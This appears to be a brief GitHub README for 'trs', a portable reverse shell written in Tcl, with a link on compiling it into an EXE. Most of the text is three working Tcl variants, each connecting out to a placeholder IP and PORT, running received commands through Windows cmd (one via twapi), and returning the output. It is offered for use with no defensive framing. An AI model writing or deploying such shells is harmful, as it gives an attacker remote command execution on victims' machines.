 # trs
portable tcl based reverse shell

https://www.tcl.tk/about/language.html

**Compile**

https://wiki.tcl-lang.org/page/How+to+compile+a+TCL+script+into+an+EXE+program



```
set chan [socket IP PORT]
while {1} {                        
   flush $chan                             
   puts $chan [exec cmd /c [gets $chan]] 
   flush $chan
}
```

```
set chan [socket IP PORT]
while {1} {                        
   flush $chan                               
   set fd [open "|cmd /c [gets $chan]" r]
   while {[gets $fd line] >= 0} { puts $chan $line }
   flush $chan
}
```

```
package require twapi
proc runrun {in} {
   set args "/c $in"  
   return 
[twapi::shell_execute -path cmd.exe -noconsole 1 -params $args]
 
}
set chan [socket IP PORT]
while {1} {                        
   flush $chan                             
   puts $chan [runrun [gets $chan]]
   flush $chan
}
```
